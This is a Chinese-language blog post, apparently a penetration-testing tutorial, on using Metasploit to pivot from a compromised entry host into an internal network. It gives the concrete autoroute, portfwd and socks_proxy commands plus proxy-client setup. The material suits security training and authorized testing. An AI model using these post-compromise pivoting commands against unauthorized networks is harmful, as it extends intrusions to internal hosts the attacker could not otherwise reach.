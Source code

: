 ```yaml
---
title: MetaSploit内网代理
date: 2025-10-04 13:29:01
permalink: /pages/msfproxy/
categories:
  - 渗透
tags:
  - metasploit
  - 内网代理
author: 
  name: the0n3
  link: https://the0n3.top
---
```



在入口机上线Meterpreter后，把入口机作为跳板机，通过添加路由、端口转发、socks代理等多种方式访问内网

![](/medias/msfproxy/1.png)


<!-- more -->

## 描述

例如上图中所示拓扑，192.168.10.x网段的攻击机无法直接访问192.168.20.x网段内网主机，入口机存在192.168.10.x、192.168.20.x两个网卡，在拿下入口机meterpreter后，让这台入口机转发流量实现访问内网

metasploit内网代理的三种方式：

- 添加路由
- 端口转发
- socks代理


## autoroute添加路由

在入口机添加静态路由，让攻击机知道如何访问内网，添加路由后，msf的流量会自动分流，其他流量不受影响

```bash
meterpreter > run autoroute -s 192.168.20.0/24
```

或者在msfconsole中使用，指定session id

```bash
msf > route add 192.168.20.0 255.255.255.0 1
```

删除路由指令

```bash
msf > route remove 192.168.20.0 255.255.255.0 1
```

::: tip
添加路由后，攻击机可以通过入口机转发流量访问内网，在内网主机存在漏洞可以利用时，推荐使用**正向shell**，如果使用反弹shell，内网主机没有到攻击机的路由，反弹shell会失败。可以通过portfwd把本地监听端口映射到入口机上，反弹shell到入口机的映射端口。
:::

## portfwd端口转发

效果可能较差，流量经过了多次转发

在入口机上使用portfwd命令做端口转发，把内网主机的端口映射到本地（攻击机）上，访问本地端口实现直接访问内网主机的效果

```bash
meterpreter > portfwd add -l 10000 -p 8080 -r 192.168.20.20
```

- l：本地端口（使用msf的主机）
- p：内网主机端口
- r：内网主机IP

例如192.168.20.20主机存在一个thinkphp漏洞版本，通过这条命令把内网主机8080端口映射到攻击机10000端口，可以直接访问127.0.0.1:10000达到访问192.168.20.20:8080的效果


```bash
meterpreter > portfwd list
#  Local         Remote                Direction
1  127.0.0.1:3389  192.168.10.20:3389   Forward
2  127.0.0.1:445   192.168.10.30:445    Forward
# 方法一：根据id删除
meterpreter > portfwd delete -i 1
# 方法二：根据本地端口删除
meterpreter > portfwd delete -l 3389
```

反向端口转发。把本地的端口映射到入口机上，内网主机可以通过入口机访问

```bash
portfwd add -R -p 1389 -L 192.168.10.10 -l 1389
```


## socks代理

启动 SOCKS5 代理模块，需要先使用route命令添加路由

```bash
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
SRVPORT => 1080
msf6 auxiliary(server/socks_proxy) > run
```

## 使用socks5代理

可以在浏览器里配置socks5代理，或使用proxifier等工具，让流量走代理访问内网

浏览器使用扩展[Proxy SwitchyOmega 3 (ZeroOmega)](https://microsoftedge.microsoft.com/addons/detail/proxy-switchyomega-3-zer/dmaldhchmoafliphkijbfhaomcgglmgd)


![](/medias/msfproxy/2.png)

![](/medias/msfproxy/3.png)

访问内网资源使用这个socks5代理

![](/medias/msfproxy/4.png)


使用proxifier让你的工具都能访问内网

proxifier添加代理服务器

![](/medias/msfproxy/5.png)

![](/medias/msfproxy/6.png)

配置后，指定的exe工具就可以使用socks5代理访问内网。例如python脚本、java的jar工具，你添加运行时的python.exe、java.exe即可



自用

```bash
run autoroute -s 192.168.20.0/24
portfwd add -l 10000 -p 8080 -r 192.168.20.20
use auxiliary/server/socks_proxy
set VERSION 5
set SRVHOST 0.0.0.0
set SRVPORT 1080
run
```



参考：

- [内网渗透-msf及socks代理转发](https://blog.csdn.net/u014029795/article/details/117375754)
- [利用msf自带的route模块穿透目标内网](https://pingmaoer.github.io/2020/05/09/%E5%88%A9%E7%94%A8msf%E8%87%AA%E5%B8%A6%E7%9A%84route%E6%A8%A1%E5%9D%97%E7%A9%BF%E9%80%8F%E7%9B%AE%E6%A0%87%E5%86%85%E7%BD%91/)
- [利用Metasploit Framework（msf）进行内网（域）渗透](https://blog.csdn.net/qq_42342141/article/details/107113750)
